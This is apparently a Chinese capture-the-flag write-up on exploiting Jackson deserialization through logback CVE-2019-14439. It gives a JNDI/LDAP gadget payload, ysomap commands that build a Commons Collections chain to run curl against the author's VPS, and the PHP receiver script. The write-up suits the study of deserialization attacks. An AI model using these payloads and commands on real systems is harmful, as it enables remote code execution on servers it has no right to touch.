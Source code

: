 ```
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
    </dependency>
  </dependencies>

</project>
```
 

有`ch.qos.logback`和`commons-collections`，

然后看一下`jackson`有什么漏洞，根据`pom.xml`来看，直接筛选，看到有一个`logback`的

**CVE-2019-14439**可以 

利用是

`["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://localhost:43658/Calc"}]`

那么是JNDI注入

然后题目是高版本的JDK，> 8u191,

`paper`上有绕过高版本的JDK限制进行JNDI注入

[https://paper.seebug.org/942/#ldapgadget](https://paper.seebug.org/942/#ldapgadget)

结合`pom.xml`的`commons-collections`,

就是利用LDAP返回序列化数据，触发本地Gadget，就是用Common Collections的了

本来想用这个的文章的代码，[https://github.com/kxcode/JNDI-Exploit-Bypass-Demo/blob/master/HackerServer/src/main/java/HackerLDAPRefServer.java](https://github.com/kxcode/JNDI-Exploit-Bypass-Demo/blob/master/HackerServer/src/main/java/HackerLDAPRefServer.java)

以前没实践过高版本的，只试过低版本的。然后随便翻翻其他的时候看到了可以更简单的

`ysomap`这个工具，在本地直接内网穿透

```
java -jar ysomap-cli-0.0.1-SNAPSHOT-all.jar
use exploit LDAPLocalChainListener
use payload  CommonsCollections8
use bullet TransformerBullet
set lport 5555
set version 3
set args 'curl xx.xx.xx.xxx/try/shell.php?a=test'
```

![](http://mo0n.top/images/ha1cyon/ysomap.png)

vps shell.php 内容是

```
<?php
$a=$_GET['a'];
file_put_contents('content',$a);

```
